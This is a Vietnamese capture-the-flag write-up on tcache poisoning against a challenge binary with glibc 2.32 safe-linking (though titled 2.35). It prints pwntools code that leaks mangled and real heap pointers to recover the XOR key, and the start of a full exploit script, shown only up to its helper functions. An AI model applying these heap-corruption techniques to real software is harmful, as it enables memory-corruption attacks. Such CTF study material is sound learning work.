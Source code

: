 # Tcache poisoning 2.35

## Phân tích
- Bài này source giống tcache poisoning 2.31 nên ta sẽ không phân tích lại source
- Ta sẽ đi luôn vào heap
- libc 2.32 khác 2.31 là mã hóa con trỏ tại fd sau khi free, vậy mục tiêu ta phải leak heap và địa chỉ heap mã hóa trước
- Tương tự như bài trên, ta sẽ dùng lỗi OOB để thay đổi size index 0, sau đó sử dụng lỗi heap overflow để dùng kĩ thuật tcache poisoning
![image](https://hackmd.io/_uploads/B1UUk50Ckl.png)
- Có thể thấy con trỏ vùng fd và trong tcachebins đã khác nhau, do nó đã bị mã hóa bằng: heap mã hóa = heap ^ key --> ta cần heap và heap mã hóa để tính key, sau fd là địa chỉ heap, ta sẽ leak lần lượt địa chỉ heap đã mã hóa và địa chỉ heap qua index 0
```
pl = b'a'*0x40
edit(0, pl)
read(0)
ru(b'a'*0x40)
heap_cripto = u32(r(4))
log.info(hex(heap_cripto))
pl = b'a'*0x60
edit(0, pl)

read(0)
ru(b'a'*0x60)
heap_leak = (u32(b'\x00' + r(3)) << 4) + 768
log.info(hex(heap_leak))
key = heap_leak ^ heap_cripto
log.info(key)
```
- Sau đó mọi thứ giống y hệt bài libc 2.31, chỉ khác chỗ địa chỉ ta thay đổi tại fd phải ^ key
![image](https://hackmd.io/_uploads/SJm3eqRRkl.png)
![image](https://hackmd.io/_uploads/HJD0e5001e.png)

## Full script
```
#!/usr/bin/env python3

from pwn import *

exe = ELF("./chall1_patched")
libc = ELF("./libc-2.32.so")
ld = ELF("./ld-2.32.so")

context.binary = exe

info = lambda msg: log.info(msg)
sla = lambda msg, data: p.sendlineafter(msg, data)
sa = lambda msg, data: p.sendafter(msg, data)
sl = lambda data: p.sendline(data)
s = lambda data: p.send(data)
slan = lambda msg, num: sla(msg, str(num).encode())
san = lambda msg, num: sa(msg, str(num).encode())
sln = lambda num: sl(str(num).encode())
sn = lambda num: s(str(num).encode())
r = lambda nbytes: p.recv(nbytes)
ru = lambda data: p.recvuntil(data)
rl = lambda : p.recvline()

```